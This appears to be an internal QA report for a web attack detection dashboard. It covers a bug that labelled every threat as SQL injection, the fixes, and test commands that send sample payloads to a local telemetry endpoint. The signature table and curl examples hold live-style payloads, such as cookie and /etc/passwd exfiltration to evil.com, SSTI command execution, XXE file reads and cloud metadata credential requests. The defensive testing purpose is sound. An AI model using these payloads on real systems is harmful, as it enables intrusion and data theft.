

# Suraksha-AI: Multi-Threat Vector Classification & Testing Report

**Document ID:** SURAKSHA-RPT-2026-004  
**Classification:** Internal Technical Architecture & QA Verification Guide  
**Status:** Complete & Validated  
**Target Systems:** Suraksha-AI Defense Grid (`http://localhost:5173`), Backend API (`http://localhost:5000`), Enterprise Target Application (`http://localhost:3000`)

---

## Executive Summary

During full-spectrum vulnerability and defense testing against the Suraksha-AI platform, an anomaly was identified in the Security Operations Dashboard: **all intercepted threats were classified and displayed as "SQL Injection"**, even when payloads and endpoints corresponded to non-SQL attack categories such as **Open Redirect**, **Server-Side Template Injection (SSTI)**, **HTTP Header Injection**, **Cross-Site Scripting (XSS)**, and **OS Command Injection**.

This document captures the comprehensive investigation, root-cause resolution, full architectural overview of multi-threat detection mechanisms, and the definitive testing handbook with ready-to-run commands to evaluate the entire OWASP Top 10 threat spectrum.

---

## 1. Problem Investigation & Root Cause Analysis

### 1.1 Observed Behavior
When attack payloads across diverse OWASP vectors were transmitted to the Target Application (`New1`) and intercepted by the Suraksha-AI WAF reverse telemetry bridge:
- The telemetry gateway (`/api/target/telemetry`) accurately computed risk scores and correctly assigned the primary category in memory (e.g., `Open Redirect`, `Template Injection (SSTI)`).
- The records in the `attack_logs` database correctly held the category string in the `prediction` column.
- **However, in the Dashboard table and Attack Logs page, every single row displayed `SQL Injection` as its Attack Pattern.**

### 1.2 Root Cause Identification

```mermaid
flowchart TD
    subgraph Bug["Root Cause Chain"]
        A["DetectionService.analyze_request()"] -->|Returns 'prediction': 'Open Redirect'| B["AttackLog Model Instance Created"]
        B -->|Saved to SQLite| C["attack_logs.prediction = 'Open Redirect'"]
        C -->|GET /api/logs calls to_dict()| D["AttackLog.to_dict() OMITTED 'prediction'"]
        D -->|JSON Response lacking prediction field| E["Frontend Dashboard.jsx Fallback"]
        E -->|item.inferred_type || item.prediction || 'SQL Injection'| F["Table forcibly rendered 'SQL Injection' for ALL threats"]
    end
```

Three interrelated defects contributed to this issue:
1. **Model Serialization Omission (`Backend/app/models/attack_log.py`)**:
   While `self.prediction` was stored in the SQLite database, `AttackLog.to_dict()` did not include `"prediction"`. Consequently, API responses omitted the attack classification.
2. **Frontend Fallback Precedence (`Frontend/src/pages/Dashboard.jsx`)**:
   The table mapping logic evaluated `pattern: item.inferred_type || item.prediction || 'SQL Injection'`. With `prediction` missing from the payload, it universally defaulted to `'SQL Injection'`. Furthermore, the table header was statically titled `"Injected SQL Payload Snippet"`.
3. **Hardcoded Chart Distribution (`Frontend/src/services/dashboardService.js`)**:
   The `attackTypes` chart distribution was hardcoded to simulate SQLi sub-types (`Union Based`, `Error Based`, `Blind SQLi`, etc.) rather than dynamically aggregating actual vector occurrences from log records.

---

## 2. Engineering Changes & Fixes Applied

### 2.1 Backend Serialization Fix
In `Backend/app/models/attack_log.py`, `to_dict()` was updated to expose the classification under all standard frontend property keys:
```python
def to_dict(self):
    return {
        "id": self.uuid,
        "time": self.timestamp.strftime('%Y-%m-%d %H:%M:%S') if self.timestamp else None,
        "ip": self.client_ip,
        "payload": self.payload or "",
        "prediction": self.prediction,          # Primary classification
        "pattern": self.prediction,             # Secondary key for legacy UI
        "attack_pattern": self.prediction,      # Compatibility key
        "threatLevel": self.threat_level,
        "status": self.status,
        "confidence": self.confidence,
        "endpoint": self.url,
        "method": self.method,
        "risk_score": self.risk_score,
        "response_time": self.response_time,
        "blocked": self.blocked
    }
```

### 2.2 Dashboard Real-Time Table Modernization
In `Frontend/src/pages/Dashboard.jsx`:
- Prioritized explicit threat predictions:
  ```javascript
  pattern: item.prediction || item.pattern || item.attack_pattern || item.inferred_type || 'Web Attack Vector'
  ```
- Replaced table header text `"Injected SQL Payload Snippet"` with `"Injected Threat Payload"`.
- Updated view subheadings to reflect the unified multi-threat WAF grid.

### 2.3 Attack Logs Audit Trail & Modal Inspection
In `Frontend/src/pages/AttackLogs.jsx`:
- Added a dedicated **Threat Pattern** column to the primary data table.
- Enhanced the **Threat Intel Decode Report** modal to display the true attack classification vector alongside incident ID, timestamp, and source host.

### 2.4 Dynamic Threat Distribution Engine
In `Frontend/src/services/dashboardService.js`:
- Implemented real-time aggregation across log entries to calculate exact category frequencies for the distribution charts.
- Updated chart legends to represent all active vectors (`SQL Injection`, `Cross-Site Scripting (XSS)`, `Command Injection`, `Broken Access Control`, `SSRF / Traversal`, etc.).

---

## 3. Architecture: How Suraksha-AI Captures & Detects Multi-Threat Attacks

Suraksha-AI executes a multi-layered evaluation pipeline on every HTTP request arriving at protected endpoints or via the reverse telemetry bridge:



### 3.1 Detection Mechanisms by Category

| OWASP Vector | Detection Mechanism in Suraksha-AI | Example Intercepted Signature |
| :--- | :--- | :--- |
| **A01: Broken Access Control** | Privilege escalations, unauthorized admin parameter overrides, IDOR numeric brute-forcing. | `admin=true&role=admin&user_id=1` |
| **A02: Cryptographic Failures** | Weak cipher suites, plain HTTP transport anomalies, base64-encoded credential leaks. | Plaintext auth parameters |
| **A03: SQL Injection (SQLi)** | Hybrid ML (Random Forest) + AST SQL grammar tokenizer and boolean tautology analyzer. | `' UNION SELECT null, username, password FROM users --` |
| **A03: Cross-Site Scripting (XSS)** | HTML tokenizers, event handler injection detection (`onload=`, `onerror=`), script tag sanitization. | `<script>fetch('http://evil.com/steal?c='+document.cookie)</script>` |
| **A03: Command Injection** | Shell metacharacter analysis (`;`, `\|`, `&&`, backticks, `$()`) and command binaries (`cat`, `whoami`, `nc`). | `; cat /etc/passwd \| mail attacker@evil.com` |
| **A03: XML / XXE Injection** | XML DOCTYPE, ENTITY declaration scanning, and external URI identifier detection. | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>` |
| **A03: Template Injection (SSTI)** | Template expression syntax parsing for Jinja2, Twig, Smarty (`{{...}}`, `${...}`, `__class__.__mro__`). | `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` |
| **A03: Header Injection (CRLF)** | CRLF character detection (`\r\n`, `%0d%0a`) in HTTP header values and cookie inputs. | `user_pref\r\nSet-Cookie: session=hijacked` |
| **A03: LDAP Injection** | LDAP filter syntax parsing, wildcard asterisks, and unbalanced boolean logic. | `*)(&(objectClass=*))` |
| **A05: Path Traversal (LFI/RFI)** | Directory climbing pattern detection (`../`, `..\`, URL-encoded `%2e%2e%2f`, sensitive file targets). | `../../../../etc/shadow` |
| **A10: SSRF** | Cloud metadata IP interception (`169.254.169.254`, `metadata.google.internal`), loopback schemes. | `http://169.254.169.254/latest/meta-data/` |
| **Open Redirect** | Unvalidated external URI schemas in `redirect=`, `return_url=`, `next=` parameters. | `redirect=https://evil-phishing-portal.com/login` |

---

## 4. Testing Manual & Attack Simulation Commands

All tests should be conducted from the root project directory:
```powershell
cd c:\Users\DELL\Music\Suraksha-AI_Project_Phase1\Suraksha-AI_Project_Phase1
```

### 4.1 Automated Live Multi-Threat Simulation (Recommended)
This script transmits live simulated requests for all 11 OWASP vectors directly into the Suraksha-AI reverse telemetry gateway. You can observe the requests streaming into the dashboard (`http://localhost:5173/`) in real-time with their true threat classifications:

```powershell
python test_live_attacks.py --host http://127.0.0.1:5000 --delay 1.0
```

**Expected Terminal Output:**
```text
===========================================================================
 🚀 LAUNCHING SURAKSHA-AI LIVE MULTI-THREAT TEST SIMULATION
 Target Gateway : http://127.0.0.1:5000
 Delay Interval : 1.0s per attack
===========================================================================
[01/12] [403 BLOCKED 🛡️] Broken Access Control      -> BLOCKED  | Severity: High     | IP: 198.51.100.42
[02/12] [403 BLOCKED 🛡️] XML / XXE Injection        -> BLOCKED  | Severity: Critical | IP: 203.0.113.15
[03/12] [403 BLOCKED 🛡️] Command Injection          -> BLOCKED  | Severity: Critical | IP: 185.220.101.5
[04/12] [403 BLOCKED 🛡️] Cross-Site Scripting (XSS) -> BLOCKED  | Severity: High     | IP: 192.0.2.88
[05/12] [403 BLOCKED 🛡️] Path Traversal             -> BLOCKED  | Severity: High     | IP: 198.51.100.99
[06/12] [403 BLOCKED 🛡️] SSRF                       -> BLOCKED  | Severity: Critical | IP: 203.0.113.77
[07/12] [403 BLOCKED 🛡️] LDAP Injection             -> BLOCKED  | Severity: High     | IP: 185.220.101.23
[08/12] [403 BLOCKED 🛡️] Header Injection           -> BLOCKED  | Severity: High     | IP: 192.0.2.14
[09/12] [403 BLOCKED 🛡️] Template Injection (SSTI)  -> BLOCKED  | Severity: Critical | IP: 198.51.100.12
[10/12] [403 BLOCKED 🛡️] Open Redirect              -> BLOCKED  | Severity: Medium   | IP: 203.0.113.4
[11/12] [403 BLOCKED 🛡️] SQL Injection              -> BLOCKED  | Severity: Critical | IP: 185.220.101.99
[12/12] [200 ALLOWED ✅] Legitimate Traffic (Safe)   -> ALLOWED  | Severity: Info     | IP: 127.0.0.1
===========================================================================
```

---

### 4.2 Full OWASP Top 10 (97-Vector) Compliance Test
Evaluates all 97 benchmark test vectors across categories A01 through A10:

```powershell
python test_owasp_top10_suite.py
```

---

### 4.3 Multi-Threat Unit Test Suite
Evaluates individual regex tokenizers and rule sets inside `MultiThreatEngine`:

```powershell
python test_multi_threat_suite.py
```

---

### 4.4 Individual Attack Vector Commands (cURL / PowerShell)

Use these commands to test specific individual attack vectors against the telemetry gateway (`http://localhost:5000/api/target/telemetry`):

#### 1. OS Command Injection
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/tools/ping\",\"method\":\"POST\",\"payload\":\"127.0.0.1; cat /etc/passwd | mail attacker@evil.com\",\"client_ip\":\"185.220.101.5\"}"
```

#### 2. Cross-Site Scripting (XSS)
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/comments/new\",\"method\":\"POST\",\"payload\":\"<script>fetch('http://evil.com/steal?c='+document.cookie)</script>\",\"client_ip\":\"192.0.2.88\"}"
```

#### 3. Server-Side Request Forgery (SSRF)
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/fetch/url\",\"method\":\"POST\",\"payload\":\"http://169.254.169.254/latest/meta-data/iam/security-credentials/\",\"client_ip\":\"203.0.113.77\"}"
```

#### 4. Path Traversal / Arbitrary File Read (LFI)
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/files/download\",\"method\":\"GET\",\"payload\":\"../../../../etc/shadow\",\"client_ip\":\"198.51.100.99\"}"
```

#### 5. Server-Side Template Injection (SSTI)
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/render/template\",\"method\":\"POST\",\"payload\":\"{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}\",\"client_ip\":\"198.51.100.12\"}"
```

#### 6. Open Redirect
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/auth/login\",\"method\":\"GET\",\"payload\":\"redirect=https://evil-phishing-portal.com/login\",\"client_ip\":\"203.0.113.4\"}"
```

#### 7. HTTP Header / CRLF Injection
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/auth/set-preference\",\"method\":\"POST\",\"payload\":\"user_pref\\r\\nSet-Cookie: session=hijacked; Domain=.target.com\",\"client_ip\":\"192.0.2.14\"}"
```

#### 8. XML External Entity (XXE) Injection
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/xml/upload\",\"method\":\"POST\",\"payload\":\"<!DOCTYPE foo [<!ENTITY xxe SYSTEM \\\"file:///etc/passwd\\\">]><foo>&xxe;</foo>\",\"client_ip\":\"203.0.113.15\"}"
```

#### 9. Broken Access Control (BAC)
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/users/profile\",\"method\":\"POST\",\"payload\":{\"user_id\":\"1\",\"role\":\"admin\",\"isAdmin\":\"true\"},\"client_ip\":\"198.51.100.42\"}"
```

#### 10. Classic SQL Injection (Authentication Bypass)
```powershell
curl.exe -X POST "http://localhost:5000/api/target/telemetry" `
  -H "Content-Type: application/json" `
  -d "{\"source_app\":\"Production API\",\"url\":\"/api/target/login\",\"method\":\"POST\",\"payload\":\"admin' OR 1=1 --\",\"client_ip\":\"185.220.101.99\"}"
```

---

## 5. Verification & UI Inspection

1. Navigate to `http://localhost:5173/` in your browser.
2. Under the **Recent Threat Inceptions** table, verify that the **Attack Pattern** column accurately lists:
   - `Cross-Site Scripting (XSS)`
   - `Command Injection`
   - `Open Redirect`
   - `Server-Side Template Injection (SSTI)`
   - `HTTP Header Injection`
   - `Path Traversal`
   - `SSRF`
   - `XML / XXE Injection`
   - `Broken Access Control`
   - `SQL Injection`
3. Click on the **Attack Logs** tab in the sidebar navigation (`http://localhost:5173/logs`) to verify the new **Threat Pattern** column and the modal detail report.
4. Check the **Attack Types Distribution** donut chart to confirm that threat frequencies across all attack categories are represented dynamically.

